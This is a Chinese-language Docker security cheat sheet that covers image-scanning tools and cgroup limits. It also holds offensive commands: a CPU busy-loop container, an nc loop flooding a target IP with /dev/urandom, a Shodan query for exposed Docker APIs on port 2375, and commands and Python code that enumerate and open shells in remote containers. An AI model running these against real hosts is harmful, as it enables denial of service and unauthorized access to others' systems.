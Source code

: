 # Docker服务

1.镜像扫描

[Docker Scout](https://docs.docker.com/scout/)
```bash
git clone https://github.com/docker/scout-demo-service.git
cd scout-demo-service
docker login
docker build --push -t <ORG_NAME>/scout-demo:v1 .

docker scout enroll <ORG_NAME>
    Successfully enrolled organization <ORG_NAME> with Docker Scout Free
docker scout repo enable --org <ORG_NAME> <ORG_NAME>/scout-demo

docker scout cves --only-package express
```

Docker Scan
```Bash
docker scan hello-world

Testing hello-world...

Organization:      docker-desktop-test
Package manager:   linux
Project name:      docker-image|hello-world
Docker image:      hello-world
Licenses:          enabled

✓ Tested 0 dependencies for known issues, no vulnerable paths found.

Note that we do not currently have vulnerability data for your image.
```

[trivy](https://github.com/aquasecurity/trivy)
```Bash
trivy -q -f json <container_name>:<tag>
```

[snyk](https://docs.snyk.io/snyk-cli/getting-started-with-the-cli)
```Bash
snyk container test <image> --json-file-output=<output file> --severity-threshold=high
```

[clair-scanner](https://github.com/arminc/clair-scanner)
```Bash
clair-scanner -w example-alpine.yaml --ip YOUR_LOCAL_IP alpine:3.5
```

2.cgroups
```Bash
docker run -it -m 500M --kernel-memory 50M --cpu-shares 512 --blkio-weight 400 --name ubuntu1 ubuntu bash
```

获取容器的cgroup
```Bash
docker run -dt --rm [images-name] sleep 200
ps -ef | grep 200
ls -l /proc/<PID>/ns
```

3.容器DOS

CPU DOS
```Bash
# stress-ng
sudo apt-get install -y stress-ng && stress-ng --vm 1 --vm-bytes 1G --verify -t 5m

# While
docker run -d --name malicious-container -c 512 busybox sh -c 'while true; do :; done'
```

网络DOS
```Bash
nc -lvp 4444 >/dev/null & while true; do cat /dev/urandom | nc <target IP> 4444; done
```

## 滥用API

Shodan：
```Bash
port:2375 product:"docker"
```

启用API
```Bash
/usr/lib/systemd/system/docker.service:
ExecStart=/usr/bin/dockerd -H tcp://0.0.0.0:2375 -H unix:///var/run/docker.sock

systemctl daemon-reload
systemctl restart docker
```

```Bash
docker -H IP地址:端口 version  //查看Docker版本
docker -H IP地址:端口 images  //查看运行的镜像
docker -H IP地址:端口 exec -it 镜像ID /bin/bash  //远程访问容器

curl -X GET http://<远程主机IP>:2375/containers/json  //查看所有容器
curl -X GET http://<远程主机IP>:2375/images/json  //查看所有镜像
curl -X GET http://<远程主机IP>:2375/containers/<容器ID>/json  //查看特定容器的详细信息
curl -X GET http://<远程主机IP>:2375/images/<镜像ID>/json  //查看特定镜像的详细信息
```

使用Python脚本通过Docker API查看远程Docker靶机的容器和镜像信息
```python
import docker

client = docker.DockerClient(base_url='tcp://<远程主机IP>:2375')

# 查看所有容器
containers = client.containers.list(all=True)
for container in containers:
    print(container.id, container.name)

# 查看所有镜像
images = client.images.list()
for image in images:
    print(image.id, image.tags)
```
